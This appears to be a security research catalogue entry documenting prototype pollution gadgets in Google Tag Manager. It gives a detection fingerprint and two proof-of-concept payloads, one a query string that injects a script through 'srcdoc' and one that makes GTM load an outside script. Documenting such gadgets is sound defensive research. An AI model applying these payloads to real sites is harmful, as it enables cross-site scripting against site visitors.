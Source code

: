 ## Google Tag Manager

### URL

https://tagmanager.google.com/

### JS Fingerprint

```js
return (typeof google_tag_manager !== 'undefined')
```

### PoC

#### PoC #1 (Depends on the GMT tags used)

```
?__proto__[vtp_enableRecaptcha]=1&__proto__[srcdoc]=<script>alert(1)</script>
```

```html
<script>
    Object.prototype.vtp_enableRecaptcha = "1";
    Object.prototype.srcdoc = "<script>alert(123)<\/script>";
</script>
<script>(function(w,d,s,l,i){w[l]=w[l]||[];w[l].push({'gtm.start':
new Date().getTime(),event:'gtm.js'});var f=d.getElementsByTagName(s)[0],
j=d.createElement(s),dl=l!='dataLayer'?'&l='+l:'';j.async=true;j.src=
'https://www.googletagmanager.com/gtm.js?id='+i+dl;f.parentNode.insertBefore(j,f);
})(window,document,'script','dataLayer','GTM-KXRTW3N');</script>
```

#### PoC #2 (Depends on the GMT tags used)

**This gadget requires Arrays support**

```
?__proto__[q][0][0]=require&__proto__[q][0][1]=x&__proto__[q][0][2]=https://www.google-analytics.com/gtm/js%3Fid%3DGTM-WXTDWH7
```

```html
<script>
    Object.prototype.q = [['require', 'x', 'https://www.google-analytics.com/gtm/js?id=GTM-WXTDWH7']];
</script>
<script>(function(w,d,s,l,i){w[l]=w[l]||[];w[l].push({'gtm.start':
new Date().getTime(),event:'gtm.js'});var f=d.getElementsByTagName(s)[0],
j=d.createElement(s),dl=l!='dataLayer'?'&l='+l:'';j.async=true;j.src=
'https://www.googletagmanager.com/gtm.js?id='+i+dl;f.parentNode.insertBefore(j,f);
})(window,document,'script','dataLayer','GTM-WFHQQ63');</script>
```
